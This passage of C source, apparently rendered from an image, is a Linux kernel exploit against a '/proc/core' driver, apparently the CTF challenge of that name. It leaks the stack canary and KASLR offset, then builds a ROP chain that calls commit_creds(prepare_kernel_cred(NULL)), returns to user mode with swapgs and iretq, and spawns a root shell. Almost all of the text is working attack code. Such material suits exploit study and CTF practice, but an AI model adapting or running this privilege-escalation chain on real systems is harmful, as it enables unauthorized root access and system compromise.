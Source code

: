 ```c
		memset(output_buffer+58, '\0', 16);
		index += 16;
	}
}

void rise_cred(){
	// define two function pointer
	void* (*prepare_kernel_credp)(void*) = prepare_kernel_cred;
	int (*commit_credsp)(void*) = commit_creds;
	commit_credsp(prepare_kernel_credp(NULL));
}

void shell(){
	if(getuid()){
		printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
		exit(1);
	}
	printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
	system("/bin/sh");
	exit(0);
}

int main(){
	saveStatus();
	fd = open("/proc/core", 2);		// open the process
	if(!fd){
		printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
		exit(1);
	}
	char buffer[0x100] = {0};
	get_function_address();		// get addresses of two key function
	
	unsigned long long base_offset = commit_creds - commit_creds_base;
	printf("\033[34m\033[1m[*] KASLR offset: \033[0m%#llx\n", base_offset);
	
	change_off(0x40);			// change the offset so that we can get canary later
	core_read(buffer);			// get canary
	
	printf("\033[34m\033[1m[*] Contents in buffer here:\033[0m\n");	// print content in buffer
	print_binary(buffer, 0x40);
	
	unsigned long long canary = ((size_t*)&buffer)[0];
	printf("\033[35m\033[1m[*] The value of canary is the first 8 bytes: \033[0m%#llx\n", canary);
	
	size_t ROP[100] = {0};
	memset(ROP, 0, 800);
	int idx = 0;
	for(int i=0; i<10; i++)
		ROP[idx++] = canary;
	ROP[idx++] = (unsigned long long)rise_cred;
	ROP[idx++] = swapgs_popfq_ret + base_offset;	// step 1 of returning to user mode: swapgs
	ROP[idx++] = 0;
	ROP[idx++] = iretq + base_offset;				// step 2 of returning to user mode: iretq
	// after the iretq: return address, user cs, user rflags, user sp, user ss
	ROP[idx++] = (unsigned long long)shell;
	ROP[idx++] = user_cs;
	ROP[idx++] = user_rflags;
	ROP[idx++] = user_sp;
	ROP[idx++] = user_ss;
	
	printf("\033[34m\033[1m[*] Our rop chain looks like: \033[0m\n");
	print_binary((char*)ROP, 0x100);
	
```